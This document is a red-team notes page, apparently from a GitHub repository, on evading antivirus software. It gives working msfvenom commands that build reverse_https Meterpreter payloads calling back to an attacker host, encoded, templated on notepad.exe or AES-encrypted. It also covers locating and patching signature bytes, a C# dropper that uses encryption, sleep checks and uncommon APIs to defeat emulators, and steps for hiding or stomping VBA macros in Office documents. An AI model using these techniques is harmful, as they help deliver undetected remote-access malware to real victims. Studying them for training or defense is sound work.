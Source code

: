 ## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```

## Play with C#
Let's modify this [banana C# payload dropper](/02ClientSideWithWindowsScriptHost/Class1.cs) to make it stronger and better.
- 1. We can use [Caeasr Ciper code](/04FunWithAntivirus/Caesar.cs) to encrpt our payload, and add encypted payload to our beefy c# dropper, we add a decryption routine to get our old payload before load into memory. 
- 2.Let's mess with our code behavior a bit to bypass heuristic detection techniques. We can add a Sleep timer with Win32 Sleep API.If this section of code is being
simulated, the emulator will detect the Sleep call and fast-forward through the instruction. we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply reutrn the code.
- 3.using non-emulated APIs,  antivirus emulators are cheap too, they often only simulate the execution of common exe or functions. We could bypass this by using a WinAPI that is not emulated. For example, [Win32 VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) a uncommon API, with Numa suffix, a system design to optimize memory usage on multi-processor servers. We can test this by reverse engineering the antivirus emulator, or test out various APIs against AV engine. let's use VirtualAllocExNuma instead of VirtualAllocEx to allocated memory, and we can put a check block, return code if the memeory is not allocated.
- 4.After adding those 3 ttps, this is our [beefy C# dropper](/04FunWithAntivirus/beefyC#dropper.cs)
- 5.TODO, reseach more uncommon API, lookinto Win32 FlsAlloc.(page 185)

## Play with VBA for a beefy Marco
We could use the sane ttp as mentioned with c# methos. 1. use a ciper to encrypt payload, 2. add delay function, 3.using non-emulated API in VBA script. The microsofy office files with .doc and .xls extension use a [Compound File Binary File Format](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b), which combine multiple files into a single disk file.

We can use [FlexHex editor](http://www.flexhex.com/download/) to inspect the .doc file fomrat to understand it better.
- 1.open a marco word doc with  Flex, File > Open > OLE Compound File
- 2.expend Macro and VBA folders on the lower-left Navigation window, content related to VBA macros are located in the Macros
- 3.The **Project** file contains project information. We can edit the Project file to hide macro from within the graphical office VBA editor. Select **“Module=NewMacros”**, which is what the GUI editor uses to link the displayed macros, replace this value with null.highlighting the ASCII string and navigating to **Edit > Insert Zero Block**
- 4.VBA PerfomanceCache. VBA use P-code, a compiled version of the VBA textual code for the specific version of Microsoft Office and VBA it was created on. When a Microsoft Word document is opened on a different computer thatuses the same version and edition of Microsoft Word, the cached pre-compiled P-code is executed, avoiding the translation of the textual VBA code by the VBA interpreter. This means that in some scenarios, the VBA source code can be removed, as long as our document is opened on a computer that uses the same version of Microsoft Word installed in the default location, the VBA source code is ignored and the P-code is executed instead. We can remove the VBA source by y locating the VBA source code inside NewMacros. mark the bytes that start with  **“Attribute VB_Name”** and select all the remaining bytes, and insert zero block.
